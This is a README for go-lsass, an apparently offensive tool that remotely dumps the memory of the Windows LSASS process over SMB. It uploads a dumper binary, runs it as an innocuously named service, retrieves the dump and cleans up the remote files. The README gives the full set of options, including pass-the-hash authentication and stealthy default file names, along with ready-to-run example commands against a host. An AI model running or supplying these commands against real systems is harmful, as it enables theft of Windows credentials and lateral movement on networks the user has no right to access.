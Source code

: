 # go-lsass

## Description
Package go-lsass is a tool built to dump the memory of the LSASS process
remotely by uploading a local LSASS dumper, executing it as a service and then
retrieve the dump file using SMB. It is built on top of the library
https://github.com/jfjallid/go-smb and is designed to primarily work with the
LSASS dumper https://github.com/jfjallid/processdumper.

**NOTE** that the LSASS dumper utility is not included in this repo but has to be
downloaded, compiled and then included by the --dumper flag or placed in the
current directory with a name of pdumpsvc.exe.
Also note that the dumpfile when created by the tool processdumper will be
inverted, e.g., every byte will be XOR:ed with 0xFF.

## Usage
```
Usage: ./go-lsass [options]

options:
      --host                Hostname or ip address of remote server
  -P, --port                SMB Port (default 445)
  -d, --domain              Domain name to use for login
  -u, --user                Username
  -p, --pass                Password
      --hash                Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -n, --null                Attempt null session authentication
  -t, --timeout             Dial timeout in seconds (default 5)
      --cleanup             Perform a cleanup of service binary, service, and dumpfile
      --dumper <path>       Path to local lsass dump utility (default pdumpsvc.exe)
      --service <name>      Name of service that will be created to run the lsass dumper (default MiscSVC)
      --service-filename    Name of service binary (default misc.exe)
      --service-dir         Remote path on C: to store service binary (default C:\windows\)
      --dumpfile            Name of lsass dump file written to disk (default misc.log)
      --dumpdir             Remote path on C: to temporarily store the lsass dump (default C:\windows\)
      --output              Path to where to store the lsass dump locally (default lsass.dmp)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -v, --version             Show version
```

## Using a custom lsass dumper
The default dumper tested with this tool is
https://github.com/jfjallid/processdumper. It should be downloaded and compiled
with `make service` to create a PE32 file that can be executed as a Windows
service.

Support for other LSASS dumper binaries is limited to binaries that can be
executed as a Windows service and which accepts two cmdline arguments:
"lsass.exe" and location of where to store the dumpfile which is a combination
of the two arguments --dumpdir and --dumpfile. With default settings, the two
arguments to the service binary are: "lsass.exe" and "C:\windows\misc.log"

## Examples

### Dump LSASS on a domain joined machine using a local account

```
./go-lsass --host server001 --local --user Administrator --pass adminPass123 --dumper pdumpsvc.exe
```

### Dump LSASS on a domain joined machine using a domain user with a custom directory for the service binary and dump file 

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --service-dir C:\\windows\\temp\\ --dumpdir C:\\windows\\temp\\
```

### Cleanup remote files and service manually when automatic cleanup failed
Note that if any of the following custom flags were used during deployment,
they are also required during cleanup:

- --service
- --service-filename
- --service-dir
- --dumpfile
- --dumpdir

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --cleanup
```
